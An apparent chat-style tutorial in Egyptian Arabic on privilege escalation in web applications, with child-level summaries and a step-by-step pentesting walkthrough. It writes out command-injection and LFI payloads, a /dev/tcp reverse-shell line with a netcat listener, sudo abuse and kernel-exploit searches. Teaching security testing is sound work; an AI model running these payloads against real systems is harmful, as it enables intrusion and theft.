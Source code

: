 تمام، هشرح لك "Definition of Privilege Escalation and Its Impact on Web Security" بعمق شديد مع تركيز على الجانب العملي والأوامر والأكواد، وبعد كل جزء هخلّصه زي ما يكون لطفل صغير، وفي الآخر هقدم خطوات عملية للاستغلال في سياق اختبار الاختراق (Pentesting).

---

### **1. تعريف Privilege Escalation (تصعيد الصلاحيات)**

#### **الشرح العميق:**
Privilege Escalation (تصعيد الصلاحيات) هو عملية يحاول فيها المهاجم أو المخترق ياخد صلاحيات أعلى من اللي عنده على نظام أو تطبيق. يعني لو دخلت على جهاز كمستخدم عادي (limited user)، بتحاول توصل لصلاحيات المسؤول (Administrator أو root) عشان تقدر تتحكم في كل حاجة. فيه نوعين رئيسيين:
1. **Vertical Privilege Escalation:** من مستخدم عادي لمستخدم بصلاحيات عالية (زي root أو admin).
2. **Horizontal Privilege Escalation:** من مستخدم عادي لمستخدم عادي تاني لكن بصلاحيات مختلفة (زي الوصول لحساب مستخدم تاني).

في سياق الويب، ده بيحصل لما تطبيق ويب (زي موقع) فيه ثغرة تسمح للمستخدم العادي يعدّل أو يتحكم في حاجات المفروض تكون للأدمن بس، زي تغيير بيانات، تشغيل أوامر، أو الوصول لملفات حساسة.

#### **الأدوات والأوامر العملية:**
1. **فحص المستخدم الحالي:**
   - لو على لينكس: `id`
     - مثال نتيجة: `uid=1000(user) gid=1000(user) groups=1000(user)`
     - لو root: `uid=0(root)`.
   - لو على ويندوز: `whoami`
     - مثال: `user-pc\user` (مستخدم عادي) أو `nt authority\system` (أعلى صلاحية).

2. **محاولة تصعيد يدوي بسيط:**
   - على لينكس: `sudo -l`
     - بيوريك الأوامر اللي ممكن تشغلها كـ root لو كان عندك إذن.
   - مثال: لو لقيت `(root) NOPASSWD: /bin/bash`، شغل `sudo /bin/bash` وهتبقى root.

3. **في الويب (مثال ثغرة):**
   - لو موقع فيه ثغرة Parameter Tampering:
     - افترض رابط زي: `http://example.com/profile?user_id=123`
     - عدّل الـ ID لـ `user_id=1` (غالبًا Admin) وشوف لو بيفتح حساب الأدمن.

#### **خلاصة للطفل:**
"زي لما تكون ضيف في بيت وتقدر تدخل المطبخ بس، لكن تلاقي طريقة تدخل بيها أوضة صاحب البيت وتتحكم في كل حاجة! تصعيد الصلاحيات يعني تاخد مفتاح أكبر من اللي معاك."

---

### **2. تأثير Privilege Escalation على أمان الويب**

#### **الشرح العميق:**
لما يحصل تصعيد صلاحيات في تطبيق ويب، التأثير بيكون خطير جدًا لأن المهاجم بيقدر يعمل حاجات زي:
- **سرقة بيانات حساسة:** زي بيانات المستخدمين أو كلمات السر.
- **تعديل الموقع:** يغير محتوى الصفحات أو يضيف أكواد ضارة.
- **التحكم في السيرفر:** لو وصل لصلاحيات root/admin على السيرفر بتاع الموقع، يقدر يشغل أوامر أو يدمر النظام كله.
- **الهجمات الممتدة:** يستخدم الموقع كقاعدة لمهاجمة أنظمة تانية.

الثغرات اللي بتؤدي لتصعيد الصلاحيات في الويب بتكون زي ضعف التحقق من الهوية (Broken Authentication)، سوء الإعدادات (Misconfiguration)، أو حقن الأوامر (Command Injection).

#### **الأدوات والأوامر العملية:**
1. **Command Injection في الويب:**
   - لو موقع بياخد إدخال منك وينفذه:
     - رابط: `http://example.com/ping?ip=127.0.0.1`
     - جرب: `http://example.com/ping?ip=127.0.0.1; whoami`
     - لو رجعلك اسم المستخدم (زي www-data)، يبقى فيه ثغرة.

2. **Local File Inclusion (LFI) لتصعيد:**
   - رابط: `http://example.com?page=about.php`
   - جرب: `http://example.com?page=/etc/passwd`
     - لو ظهر ملف passwd، حاول تصعيد بـ:
     - `http://example.com?page=/proc/self/environ` (تشوف بيئة النظام).

3. **Metasploit لاستغلال ثغرة:**
   - لو لقيت ثغرة في خدمة ويب:
     - `msfconsole`
     - `use exploit/multi/http/<module_name>`
     - `set RHOST <IP>`
     - `exploit`
   - لو نجحت، هتاخد shell وتقدر تصعد صلاحيات.

#### **خلاصة للطفل:**
"لما تتحكم في موقع، زي لما تكون لعبت لعبة واخدت كل القوة! المهاجم بيقدر يسرق حاجات، يخرب البيت، أو يتحكم في كل حاجة لو لقى الباب مفتوح."

---

### **3. ليه مهم نفهم ده وإزاي نستغله؟**
- **الهدف:** لو اختبرت موقع (كـ Pentester)، لازم تعرف الثغرات اللي ممكن تؤدي لتصعيد وتستغلها عشان تثبت خطورتها.
- **مثال عملي:** لو لقيت Command Injection، ممكن تشغل أوامر زي `whoami` أو `id`، وبعدها تبحث عن طريقة تصير root.
- **أدوات إضافية:**
  - `searchsploit`:
    - `searchsploit php 7.2 command injection`
    - بيطلعلك ثغرات مرتبطة بالإصدار.

#### **خلاصة للطفل:**
"لما تعرف إزاي تدخل وتتحكم، بتبقى زي بطل خارق بيقدر يفتح كل الأبواب ويثبت إن البيت مش أمان!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الموقع**
- استخدم Nmap لفحص السيرفر:
  - `nmap -sV 192.168.1.10`
- افترض النتيجة:
  - Port 80: Apache 2.4.29
  - Port 22: OpenSSH 5.3

#### **الخطوة 2: اختبار ثغرات الويب**
- جرب Command Injection:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`
  - لو رجعلك `uid=33(www-data)`، يبقى فيه ثغرة.
- جرب LFI:
  - `http://192.168.1.10?page=/etc/passwd`
  - لو ظهر الملف، ابحث عن ملفات زي `/var/www/html/config.php` لكلمات سر.

#### **الخطوة 3: استغلال الثغرة**
- لو لقيت Command Injection:
  - أضف أمر زي: `; /bin/bash -i >& /dev/tcp/<your_IP>/4444 0>&1`
  - شغل Netcat على جهازك: `nc -lvnp 4444`
  - لو نجح، هتاخد shell.

#### **الخطوة 4: تصعيد الصلاحيات**
- على الـ Shell:
  - `id` (تشوف مين أنت، مثلاً www-data).
  - `sudo -l` (تشوف لو فيه أوامر بصلاحيات root).
  - لو لقيت مثلاً `sudo /bin/bash`، شغله وهتبقى root.
- لو مفيش sudo:
  - ابحث عن Kernel Exploit:
    - `uname -r` (تعرف إصدار النواة، زي 2.6.32).
    - `searchsploit linux kernel 2.6.32`
    - نزل السكربت وشغله على السيرفر.

#### **الخطوة 5: توثيق وتنظيف**
- سجل كل خطوة (لتقرير الـ Pentest).
- لو خلّصت، امسح أي أثر (زي السكربتات) لو ده جزء من الاتفاق.

#### **خلاصة للطفل:**
"زي لما تلعب لعبة مغامرات: تدور على الثغرة زي كنز، تستخدمها عشان تفتح الباب الكبير، وتصير الملك بتاع الموقع!"

---

### **الخلاصة النهائية:**
Privilege Escalation هو مفتاح التحكم الكامل في نظام أو موقع. في الويب، بتدور على ثغرات زي Command Injection أو LFI، وبعدين تستغلها عشان تاخد shell وتصعد لصلاحيات أعلى. بالأدوات زي Nmap، Netcat، وMetasploit، تقدر تكتشف وتستغل كل نقطة ضعف بسهولة لو خططت صح!